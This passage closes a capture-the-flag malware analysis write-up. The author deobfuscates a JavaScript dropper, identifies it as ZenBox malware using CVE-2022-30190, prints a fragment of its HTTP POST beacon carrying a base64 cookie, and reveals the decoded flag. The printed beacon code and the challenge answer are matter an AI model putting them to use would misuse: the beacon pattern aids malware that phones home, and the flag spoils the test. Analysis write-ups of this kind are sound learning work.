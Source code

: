 ```js
    //Trust me there was a lot of encoded data, I don't want to put it here cause of readability
    +4M6U9FG9yxA10oQH1d7HIuM3M1EW0kPT+quYKtMS08BQLTTKZMtMkm0E=';
	return r;
}
```

So, if we replace here eval() with a printout, we will get...

A ZenBox malware (VirusTotal link: https://www.virustotal.com/gui/file/6168dd097c175f7c0088e5ff685db7054a5ca9e47425ef81f059b1f4b3069da6)
(Here we also can see which CVE this malware is abusing: https://nvd.nist.gov/vuln/detail/cve-2022-30190)

So, now we are "at the bottom" of that malware obfuscation chain, and can start inspecting this file. I won't provide the actual file, as there is no point of doing it as a different file, and if I paste it here it would take two too much space.

So, inside this file there was this HTTP query:

```javascript

S47T.OPEN('post', caA2, false);
S47T.SETREQUESTHEADER('user-agent:', 'Mozilla/5.0 (Windows NT 6.1; Win64; x64); ' + he50());
S47T.SETREQUESTHEADER('content-type:', 'application/octet-stream');
S47T.SETREQUESTHEADER('content-length:', '4');
S47T.SETREQUESTHEADER('Cookie:', 'flag=SFRCe200bGQwY3NfNHIzX2czdHQxbmdfVHIxY2tpMTNyfQo=');
```

With our flag as a base64-ed cookie. So, after decoding we will get our flag:

HTB{m4ld0cs_4r3_g3tt1ng_Tr1cki13r}


Actually, it was really cool experience for me, as I never have done malware analysis of some sample, so this journey for me was really interesting. GGs!